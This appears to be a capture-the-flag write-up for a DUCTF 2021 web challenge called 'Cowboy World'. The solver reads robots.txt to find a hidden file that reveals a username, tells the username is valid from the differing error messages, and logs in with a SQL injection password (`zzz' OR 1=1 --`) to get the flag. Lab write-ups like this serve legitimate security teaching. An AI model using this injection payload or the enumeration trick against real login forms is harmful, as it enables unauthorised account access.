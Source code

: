# Cowboy World

- **Category:** Web

## Challenge

I heard this is the coolest site for cowboys and can you find a way in?

Author: Crem
https://web-cowboy-world-54f063db.chal-2021.duc.tf

Hint: https://www.youtube.com/watch?v=fn3KWM1kuAw

## Solution

Visit `/robot.txt`

```
# pls no look

User-Agent: regular_cowboys
Disallow: /sad.eml
```

Visit `/sad.eml`

```
Everyone says 'yeee hawwwww'

but never 'hawwwww yeee'

:'(

thats why a 'sadcowboy' is only allowed to go into our website
```

Username: `sadcowboy`

Entering wrong user and password give the error `Incorrect username or password`
Entering `sadcowboy` gives the error `Incorrect password`

Try SQLi
username: `sadcowboy`
password: `zzz' OR 1=1 --`

```
Welcome fellow sadcowboy *tips hat*

DUCTF{haww_yeeee_downunderctf?}
```

Flag

```
DUCTF{haww_yeeee_downunderctf?}
```
